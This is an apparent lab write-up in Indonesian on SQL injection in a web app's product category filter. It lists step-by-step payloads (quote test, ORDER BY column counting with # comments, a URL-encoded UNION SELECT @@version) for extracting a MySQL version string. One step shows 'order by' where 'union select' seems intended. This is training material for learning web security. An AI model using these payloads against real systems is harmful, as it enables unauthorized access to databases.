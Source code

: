 # Overview
web app vuln SQLI di bagian product category filter.

HINTS:
    - lihat cheatsheet SQLI dari portswigger

GOALS:
    - lakukan SQLI untuk retrieve string `8.0.35-0ubuntu0.20.04.1` 

# Analisis
cek apakah vuln terhadap SQLI dengan `'`

selanjutnya cek jumlah tabel `' order by 1--` menghasilkan error. Ganti dengan `#` untuk command
    - `' order by 1#`
    - `' order by 2#`

selanjutnya cek kolom yang dapat hold string
    - `' order by 'a',null#`
    - `' order by null,'a'#`

ternyata kedua kolom dapat dipakai untuk hold string, selanjutnya gunakan payload:
    - `'+union+select+%40%40version,'a'%23`
